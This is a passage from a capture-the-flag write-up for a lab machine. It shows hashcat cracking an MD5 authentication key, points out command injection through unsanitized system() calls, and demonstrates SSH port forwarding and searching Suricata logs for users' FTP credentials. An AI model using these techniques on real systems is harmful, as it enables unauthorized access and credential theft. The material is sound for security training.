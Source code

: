 After analyzing the code we will find important notes.
- we have the hash of the auth key `AUTH_KEY_HASH "0feda17076d793c2ef2870d7427ad4ed"` and It's the md5 of the authentication key.
- we already have part of the key from `run-tests.sh` which is `UHI75GHI****`, so we can use hashcat or even write a python script for getting the key.
```bash
┌──(youssif㉿youssif)-[~]
└─$ hashcat -m 0 -a 3 0feda17076d793c2ef2870d7427ad4ed  UHI75GHI?a?a?a?a -O
---snip---
0feda17076d793c2ef2870d7427ad4ed:UHI75GHINKOP 
---snip---
```
We got the auth key `UHI75GHINKOP`.

After examining the code also we will find that there are 3 possible action: `list, run playbook_number, install role_url`
run and install are vulnerable to command injection due to the use of `system` without any input sanitization and install is more clear as the argument passed to it is the last argument in the executed command and we can abuse this to cmd injection.

but we can't do `sudo -l` as we don't have the password of the current user, so we can't run runner1 as root.
Let look further in the machine

I used `ss -tulpn` to see if there's service listening on local port and i found this
```bash
dev_acc@intuition:~$ ss -tulpn
Netid    State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port   Process    
udp      UNCONN    0         0            127.0.0.53%lo:53               0.0.0.0:*                 
udp      UNCONN    0         0                  0.0.0.0:68               0.0.0.0:*                 
udp      UNCONN    0         0                  0.0.0.0:53997            0.0.0.0:*                 
udp      UNCONN    0         0                  0.0.0.0:5353             0.0.0.0:*                 
udp      UNCONN    0         0                     [::]:49919               [::]:*                 
udp      UNCONN    0         0                     [::]:5353                [::]:*                 
tcp      LISTEN    0         4096             127.0.0.1:8080             0.0.0.0:*                 
tcp      LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*                 
tcp      LISTEN    0         100             172.21.0.1:21               0.0.0.0:*                 
tcp      LISTEN    0         4096             127.0.0.1:37671            0.0.0.0:*                 
tcp      LISTEN    0         511                0.0.0.0:80               0.0.0.0:*                 
tcp      LISTEN    0         128                0.0.0.0:22               0.0.0.0:*                 
tcp      LISTEN    0         4096             127.0.0.1:4444             0.0.0.0:*                 
tcp      LISTEN    0         100              127.0.0.1:21               0.0.0.0:*                 
tcp      LISTEN    0         128                   [::]:22                  [::]:*
```
to access service on local port, we will try port forwarding like this `ssh -L 9001:127.0.0.1:4444 -i ./key dev_acc@10.10.11.15`, so browsing in `localhost:9001` will forward us to port 4444 on the target.
I found `Selenium Grid` on port 4444, but after searching i found no interesting thing to do here.

Let's see the running processes using `ps -ef`.
I found interesting `suricata` process running.
Then i read the configurations of `suricata` in `/etc/suricata/suricata.yaml`, I found that logs are in `/var/log/suricata` so let's go there.
we want creds for adam or lopez for ssh, so we will search in these logs for that.
```bash
dev_acc@intuition:/var/log/suricata$ zgrep "lopez" *.gz
eve.json.8.gz:{"timestamp":"2023-09-28T17:43:36.099184+0000","flow_id":1988487100549589,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":37522,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":1,"community_id":"1:SLaZvboBWDjwD/SXu/SOOcdHzV8=","ftp":{"command":"USER","command_data":"lopez","completion_code":["331"],"reply":["Username ok, send password."],"reply_received":"yes"}}
eve.json.8.gz:{"timestamp":"2023-09-28T17:44:32.133372+0000","flow_id":1218304978677234,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":45760,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":1,"community_id":"1:hzLyTSoEJFiGcXoVyvk2lbJlaF0=","ftp":{"command":"USER","command_data":"lopez","completion_code":["331"],"reply":["Username ok, send password."],"reply_received":"yes"}}
```